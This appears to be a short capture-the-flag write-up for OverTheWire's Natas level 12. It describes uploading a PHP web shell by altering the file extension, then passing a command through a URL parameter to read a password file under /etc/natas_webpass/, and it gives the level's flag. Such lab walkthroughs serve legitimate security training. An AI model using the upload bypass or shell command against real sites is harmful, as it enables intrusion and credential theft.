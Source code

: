 ```yaml
---
layout: default
title: natas12
---
```


# Natas Level 12 Solution

here we inject webshell, by changing the EXT of the tmp file we upload, as you can see below

![alt text](./images/level12.png)

then, we go to `upload/yw04l1863l.php` which is the url
```
http://natas12.natas.labs.overthewire.org/upload/yw04l1863l.php
```

and inject our payload, in this case: `?x=cd /etc/natas_webpass/; cat natas13`

**Flag:** ***`trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`*** 